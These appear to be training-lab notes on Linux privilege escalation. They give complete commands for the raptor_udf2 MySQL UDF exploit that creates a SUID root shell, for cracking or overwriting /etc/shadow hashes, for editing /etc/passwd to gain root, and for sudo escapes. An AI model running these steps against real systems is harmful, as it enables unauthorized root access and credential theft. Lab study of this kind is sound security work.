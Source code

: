 ### popular sql priv esc
The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a popular exploit that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:

cd /home/user/tools/mysql-udf

Compile the raptor_udf2.c exploit code using the following commands:

gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

Connect to the MySQL service as the root user with a blank password:

mysql -u root

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

/tmp/rootbash -p

Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!

rm /tmp/rootbash
exit



###weak password permission readable and writable /etc/shadow
- first see the permissions of this file : ls -l /etc/shadow
- save the hash in any file and then crack it using john
- john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
- if it is writable then create new password and then store it in this file 
- generate new password : mkpasswd -m sha-512 newpasswordhere and then replace the password and we can use root user 

### weak permission in /etc/passwd 
- we can create new password and replace x with this password 
- openssl passwd newpasswordhere 
- same we can do and add new user 


### shell escape sequence 
- sudo -l will tell all the permission allowed to user 
- Visit GTFOBins (https://gtfobins.github.io) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.
